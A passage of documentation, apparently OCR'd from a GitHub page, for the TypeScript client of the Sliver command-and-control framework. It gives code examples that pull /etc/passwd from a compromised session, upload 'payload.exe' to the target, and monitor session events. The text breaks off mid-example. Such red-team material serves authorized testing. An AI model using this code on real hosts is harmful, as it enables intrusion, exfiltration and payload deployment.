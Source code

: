 ### Example 3: Download and Upload Files

```typescript
import { SliverClient, ParseConfigFile } from 'sliver-script';
import * as fs from 'fs';

(async function() {
    const config = await ParseConfigFile('./config.cfg');
    const client = new SliverClient(config);
    await client.connect();
    
    const sessions = await client.sessions();
    if (!sessions || sessions.length === 0) {
        console.log('No sessions available');
        return;
    }
    
    const interactive = await client.interactSession(sessions[0].ID);
    
    // Download a file
    console.log('Downloading /etc/passwd...');
    const fileData = await interactive.download('/etc/passwd');
    fs.writeFileSync('./passwd', fileData);
    console.log(`Downloaded ${fileData.length} bytes`);
    
    // Upload a file
    console.log('Uploading payload...');
    const payload = fs.readFileSync('./payload.exe');
    await interactive.upload('/tmp/payload.exe', payload);
    console.log('Upload complete');
    
    await client.disconnect();
})();
```

### Example 4: Real-time Event Monitoring

```typescript
import { SliverClient, ParseConfigFile, Events } from 'sliver-script';

(async function() {
    const config = await ParseConfigFile('./config.cfg');
    const client = new SliverClient(config);
    await client.connect();
    
    console.log('Monitoring events...');
    
    // Monitor all events
    client.event$.subscribe({
        next: (event) => {
            const timestamp = new Date().toISOString();
            console.log(`[${timestamp}] ${event.EventType}`);
            
            switch (event.EventType) {
                case Events.SessionConnected:
                    console.log(`  New session: ${event.Session?.Name}`);
                    break;
                case Events.SessionDisconnected:
                    console.log(`  Session disconnected: ${event.Session?.Name}`);
                    break;
                case Events.JobStarted:
                    console.log(`  Job started: ${event.Job?.Name}`);
                    break;
                case Events.JobStopped:
```